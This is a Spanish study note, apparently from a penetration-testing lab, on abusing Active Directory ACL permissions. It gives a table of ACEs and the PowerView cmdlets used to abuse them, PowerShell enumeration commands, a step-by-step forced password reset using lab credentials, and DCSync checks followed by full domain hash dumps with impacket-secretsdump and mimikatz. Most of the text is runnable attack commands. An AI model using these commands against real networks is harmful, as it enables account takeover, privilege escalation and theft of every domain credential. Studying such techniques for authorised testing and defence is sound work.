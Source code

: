 #ACL 
## Enumeración ACL
Las ACEs nos pueden servir para establecer persistencia, escalar privilegios o realizar moviemientos laterales, además de que son muy difíciles de detectar por AV o escáneres de vulnerabilidades. Algunas de las ACEs más importantes las podemos detectar con herramientas como `BloodHound` y abusarlas con `PowerView`, entre otras herramientas posibles
Tabla de ACEs y como se pueden explotar

## Tabla explotación

| **ACL (Permiso/ACE)**   | **Técnica/Herramienta de Abuso**                   | **Descripción del Abuso**                             |
| ----------------------- | -------------------------------------------------- | ----------------------------------------------------- |
| **ForceChangePassword** | `Set-DomainUserPassword`                           | Cambiar la contraseña de un usuario sin conocerla.    |
| **Add Member**          | `Add-DomainGroupMember`                            | Agregar usuarios a grupos, elevando privilegios.      |
| **GenericAll**          | `Set-DomainUserPassword` / `Add-DomainGroupMember` | Control total sobre el objeto (contraseñas/grupos).   |
| **GenericWrite**        | `Set-DomainObject`                                 | Modificar atributos de un objeto de AD.               |
| **WriteOwner**          | `Set-DomainObjectOwner`                            | Cambiar el dueño de un objeto, obteniendo control.    |
| **WriteDACL**           | `Add-DomainObjectACL`                              | Modificar permisos del objeto (ACL).                  |
| **AllExtendedRights**   | `Set-DomainUserPassword` / `Add-DomainGroupMember` | Ejercer derechos avanzados (restablecer contraseñas). |
| **Addself**             | `Add-DomainGroupMember`                            | Agregarse a sí mismo a grupos con privilegios altos.  |
![[Pasted image 20250108092039.png]]
## Enumeración ACL

Es complicado hacerlo de forma manual y genera gran cantidad de información irrelevante (p. ej: `Find-InterestingDomainAcl` genera demasiada información). 
### Búsqueda dirigida - `Get-DomainObjectACL` (PowerView)
Se realiza una búsqueda sobre usuarios sobre los que tenemos el control (supongamos `wley`) y se identifican otros objetos sobre los que este usuario tiene permisos. Se añade la flag `ResolveGUIds` para que los permisos aparezcan en formato más amigable para el usuario
```powershell
$sid = Convert-NameToSid wley 
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
Si no tuviéramos `PowerView`, aún podríamos obtener un resultado similar escribiendo lo siguiente:
```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt 
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```
### Sharphound
Es más rápido, visual y potente para auditorías de Active Directory, especialmente para **identificar rutas de escalación de privilegios y relaciones complejas**.
## Ejemplos de abuso de ACEs
### Cambio de contraseña
**Permiso  `User-Force-Change-Password` -> `Set-DomainUserPassword`**
Supongamos que un usuario (`wley`) tiene un permiso `User-Force-Change-Password` sobre otro usuario (`damundsen`)
- Creamos objeto PSCredential para `wley`  con sus credenciales (`$credWley`)
	```powershell
	$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
	$CredWley = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
	```
- Creamos otro objeto tipo  `SecureString` para `damundsen` con las credenciales que queramos (`$passDam`)
	```powershell
	$passDam = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
	```
- Cambiamos la contraseña de usuario con `Set-DomainUsePassword` (no haría falta pasar credenciales si estuviéramos autenticados como `wley`)
	```powershell
	Set-DomainUserPassword -Identity damundsen -AccountPassword $passDam -Credential $CredWley -Verbose
	```
### Kerberoasting dirigido
**Permiso  `WriteProperty` | `Self` -> `Set-DomainObject`**
Se crea un SPN falso asociado a la cuenta de usuario que queramos comprometer para craquear posteriormente. [[Kerberoasting#Kerberoasting dirigido| Revisar aquí]]

### DCSync
Son parte de una ACL en AD. Estos privilegios permiten replicar datos del AD. Explota el protocolo Directory Replication Service (DRS), que utilizan los DC para sincronizar datos entre sí. En cuanto a obtención de información es equivalente a NTDS.dit
#### Comprobar usuarios con permisos DCSync
- Listar todos los usuarios ó grupos con permisos `DCSync`
	```powershell
	Get-DomainObjectAcl -SearchBase "DC=inlanefreight,DC=local" -ResolveGUIDs | ? {($_.ObjectType -match 'DS-Replication-Get-Changes|DS-Replication-Get-Changes-All')}
	```
- Comprobar si un usuario (`adunn`) tiene permisos DCSync sobre el dominio
	```powershell
	$sid = Convert-NameToSid adunn
	# $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
	Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
	# Opción chatgpt
	Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? {($_.SecurityIdentifier -eq (Get-DomainUser adunn).SID)}
	```
#### Extraer hashes NTML y tickets kerberos - `secretsdump.py`

```powershell
impacket-secretsdump -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@$target
```
- La flag `-just-dc` indica que debe extraer los hashes del archivo NTDS.dit
- Devolverá 3 archivos
#### Extraer hashes NTML y kerberos - `mimikatz`
- Extraer el hash de administrador
	```powershell
	lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator 
	# Ó con un solo paso y guardando el contenido 
	./mimikatz.exe "lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator" "exit" > adminPass.txt
	```
- Extraer los hashes de todos los usuarios: 
	```powershell
	`mimikatz.exe "lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /all exit" > resultado.txt`
	```